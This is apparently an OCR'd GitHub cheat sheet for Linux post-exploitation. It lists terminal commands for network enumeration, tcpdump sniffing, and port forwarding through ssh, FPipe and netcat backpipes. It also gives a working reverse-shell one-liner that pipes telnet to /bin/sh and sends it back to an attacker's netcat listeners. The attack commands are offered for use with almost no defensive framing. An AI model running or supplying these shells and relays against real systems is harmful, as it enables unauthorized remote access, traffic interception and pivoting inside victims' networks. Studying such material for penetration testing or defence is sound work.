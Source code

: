 - What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?
```Terminal
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
```

- What other users & hosts are communicating with the system?
```Terminal
lsof -i 
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w
```

- Whats cached? IP and/or MAC addresses
```Terminal
arp -e
route
/sbin/route -nee
```

- Is packet sniffing possible? What can be seen? Listen to live traffic
```Terminal
# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
```

- Have you got a shell? Can you interact with the system?
```Termminal
# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
```

- Is port forwarding possible? Redirect and interact with traffic from another view
```Termminal
# rinetd
# http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch

# fpipe
# FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7

# ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port

`# mknod backpipe p ; nc -l -p [remote port] < backpipe  | nc [local IP] [local port] >backpipe`
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
```
